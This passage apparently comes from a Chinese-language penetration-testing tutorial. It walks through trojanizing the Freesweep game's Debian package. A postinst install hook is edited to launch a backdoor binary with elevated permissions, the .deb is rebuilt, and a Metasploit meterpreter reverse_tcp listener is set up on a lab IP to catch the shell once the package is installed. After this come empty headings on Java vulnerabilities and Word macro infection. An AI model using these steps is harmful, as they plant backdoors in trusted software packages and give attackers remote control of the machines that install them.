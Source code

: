 ```shell
     any,based on hints given by the computer. Unlike most implementations of this game,Freesweep workd in any visual text
     display - in Linux console,in an xterm,and in most text-based terminals currently in use.
     
# 安装后脚本文件，来加载后门
	vim /root/free/DEBIAN/postinst 
	# 信息内容：
        #!/bin/bash
        sudo chmod 2755 /usr/games/freesweep_sources
        sudo /usr/games/freesweep_sources &
	# 设置权限
	chmod 755 /root/free/DEBIAN/postinst 
	
# 重新生成软件包
	dpkg-deb --build /root/free # 制作 deb 软件包
	
# 执行监听
	use exploit/multi/handler
	set payload linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.18.143
# 安装 deb  文件：
	dpkg -i free.deb
# 成功
```



### 5. 基于 JAVA 环境的漏洞环境



### 6. 利用宏感染 word 文档获取 shell


